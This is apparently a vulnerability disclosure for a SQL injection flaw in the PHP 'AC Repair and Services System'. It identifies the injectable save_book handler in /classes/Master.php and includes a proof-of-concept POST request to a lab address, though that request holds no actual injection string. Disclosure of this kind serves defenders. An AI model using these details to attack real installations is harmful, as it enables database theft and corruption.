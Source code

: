 



AC Repair and Services System using SQL injection vulnerabilities can be exploited by attackers to steal information or corrupt databases without authentication.



Source code address：https://www.sourcecodester.com/php/16513/ac-repair-and-services-system-using-php-and-mysql-source-code-free-download.html



The vulnerability is located in the /classes/Master.php file, navigate to save_book and look down to first extract($_POST) the parameters in the HTTP POST request into independent variables. Then directly see line 175 down if '$id' is empty, perform **INSERT** operation to insert a new record, if '$id' exists, perform **UPDATE** operation to update the record corresponding to the ID, the existence and SQL statement directly concatenate.

![image-20250313223937409](images\image-20250313223937409.png)

漏洞验证：

```
POST /php-acrss/classes/Master.php?f=save_book HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.80.152/php-acrss/?page=booking
Content-Length: 749
Content-Type: multipart/form-data; boundary=---------------------------327622971312812
Connection: keep-alive

-----------------------------327622971312812
Content-Disposition: form-data; name="id"


-----------------------------327622971312812
Content-Disposition: form-data; name="customer"


-----------------------------327622971312812
Content-Disposition: form-data; name="fullname"

1
-----------------------------327622971312812
Content-Disposition: form-data; name="email"

admin@qq.com
-----------------------------327622971312812
Content-Disposition: form-data; name="contact"

11
-----------------------------327622971312812
Content-Disposition: form-data; name="address"

1
-----------------------------327622971312812
Content-Disposition: form-data; name="services[]"

2
-----------------------------327622971312812--

```

![image-20250313223742223](images\image-20250313223742223.png)



































